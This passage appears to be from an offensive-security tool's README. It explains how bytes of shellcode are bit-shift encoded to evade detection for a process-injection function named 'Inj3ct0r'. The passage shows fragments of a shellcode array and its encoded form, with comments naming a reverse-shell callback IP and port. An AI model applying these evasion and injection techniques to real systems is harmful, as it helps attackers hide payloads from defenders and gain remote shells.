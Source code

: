 ```c++
g3tsyst3m@debian:~$ cat bitwiseencoder.c
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{

	unsigned char b33fy[] =
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
```

xFC = 252 in decimal

```
1 1 1 1 1 1 0 0
```

Now, left's shift that right by 1

```
1 1 1 1 1 1 0 0 (HEX = xFC)

0 1 1 1 1 1 1 0 (HEX = x7E, shifted by 1 to the right)
```

If we look at the Inj3ct0r function in `elevationstation.cpp`, we see the first hexvalue is in fact encoded as \x7E

```cpp
bool Inj3ct0r(DWORD pid)
{
    //bitwise shift right encoding method
    //ip: 192.168.1.50
    //port: 4445
    unsigned char b33fy[] =
    -->  "\x7e  <--   \x24\x41\x72\x78\x74\x60\x0\x0\x0\x20\x28\x20\x28"
```

Fairly straight forward right?  Not so fast.  You'll likely recall that when we shifted right or left, a zero must go where there was previously a 1.  Well, we have to keep track of that in our encoding routine

Why do we have to keep track of it you ask?  Consider the third hex value in our shellcode char array: \x83  <-- \xfc\x48\x83. 

`1 0 0 0 0 0 1 1 = x83`

If you shift that to the right, you get this, which makes sense.  The sevens position (2^7) moves to the 2^6 position.  The two's position (2^1) shifts right and replaces the 2^0 position.  The final one's position (2^0), 1, moves to the right and into what could be considered the negative range.  So the encoding went great!

`0 1 0 0 0 0 0 1 = x41`

The problem lies in the decoding routine...since we're missing that 1 that was previously in the ones position (2^0) and now in the "negative position".  If you shift left to get the original value, you'll see what I mean;  you fall short by 1.  Let's try it:
